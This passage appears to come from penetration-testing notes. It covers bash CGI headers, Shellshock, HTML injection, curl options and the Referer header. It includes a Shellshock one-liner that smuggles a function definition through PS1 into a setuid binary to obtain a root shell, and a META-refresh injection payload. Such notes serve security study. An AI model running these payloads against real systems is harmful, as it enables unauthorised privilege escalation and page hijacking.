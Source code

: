 It is important to understand what is cgi-bin which can be read from [Creating CGI Programs with Bash: Getting Started](http://www.team2053.org/docs/bashcgi/gettingstarted.html) . Also the most important lines in this file are:

```none
echo "Content-type: text/html"
echo ""
```

These two lines tell your browser that the rest of the content coming from the program is HTML, and should be treated as such. Leaving these lines out will often cause your browser to download the output of the program to disk as a text file instead of displaying it, since it doesn't understand that it is HTML!

**Shellshock Local Privilege Escalation**

Binaries with a setuid bit and calling (directly or indirectly) bash through execve, popen or system are tools which may be used to activate the Shell Shock bug.

```none
sudo PS1="() { :;} ;  /bin/sh" /home/username/suidbinary
```

Shellshock also affects DHCP as mentioned [Shellshock DHCP RCE Proof of Concept](https://www.trustedsec.com/september-2014/shellshock-dhcp-rce-proof-concept/) There's a metasploit module named "Dhclient Bash Environment Variable Injection (Shellshock)" for this.

#### XSS/ HTML Injection

The below will redirect the page to google.com

```none
<META http-equiv=“refresh” content=“0;URL=http://www.google.com”>
```

#### curl

```none
-k, --insecure
(SSL) This option explicitly allows curl to perform "insecure" SSL connections and transfers. All SSL connections are attempted to be made secure by using the CA certificate  bundle  installed  by  default.
This makes all connections considered "insecure" fail unless -k, --insecure is used.

-I, --head
(HTTP/FTP/FILE) Fetch the HTTP-header only! HTTP-servers feature the command HEAD which this uses to get nothing but the header of a document. When used on an FTP or FILE file, curl displays the  file  size and last modification time only.
```

#### HTTP Referer

The Referer request header contains the address of the previous web page from which a link to the currently requested page was followed. The Referer header allows servers to identify where people are visiting them from and may use that data for analytics, logging, or optimized caching.

```none
Referer: <url>

<url> An absolute or partial address of the previous web page from which a link to the currently requested page was followed. URL fragments (i.e. "#section") are not included.
```
